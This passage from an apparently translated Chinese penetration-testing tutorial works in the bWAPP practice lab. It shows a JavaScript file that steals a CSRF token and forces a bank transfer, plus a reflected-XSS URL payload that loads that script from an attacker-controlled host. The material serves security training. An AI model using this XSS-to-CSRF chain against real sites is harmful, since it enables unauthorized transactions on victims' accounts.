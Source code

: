 1.  接下来，我们需要证明存在可利用的 XSS 漏洞，因此转到漏洞**XSS-反射型（GET）**并尝试利用它。如以下截图所示，它是可利用的：

![](img/9c82cd59-4892-468f-a9e4-fcc6fcafca3b.png)

1.  我们将利用这个 XSS 漏洞加载一个托管在我们控制的服务器上的 JavaScript 文件，在本次练习中是我们的 Kali Linux 虚拟机。创建一个名为`forcetransfer.js`的文件，包含以下代码：

```
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","http://192.168.56.13/bWAPP/csrf_2.php", true);
xmlhttp.onreadystatechange=function() 
{
  if(xmlhttp.readyState==4 && xmlhttp.status == 200 )
  {
    var parser = new DOMParser();

    var responseDoc = parser.parseFromString (xmlhttp.responseText, "text/html");

    var token=responseDoc.getElementById('token').value;
    var URL="http://192.168.56.13/bWAPP/csrf_2.php?account=123-45678-90&amount=100&token=" + token + "&action=transfer"

    xmlhttp2=new XMLHttpRequest();
    xmlhttp2.open("GET",URL, true);
    xmlhttp2.send();
  }
}
xmlhttp.send();
```

1.  启动 Kali Linux 中的 Apache web 服务器，并将文件移动到网站根目录（默认路径为`*/var/www/html*`）。

1.  现在，利用 XSS 设置，将恶意文件作为脚本标签的来源。在登录到 bWApp 的情况下，打开新标签页，访问`http://192.168.56.13/bWAPP/xss_get.php?firstname=test**%3Cscript+src%3Dhttp%3A%2F%2F192.168.56.10%2Fforce-transfer.js%3E%3C%2Fscript%3E**&lastname=asd&form=submit`。XSS 有效载荷部分加粗显示。
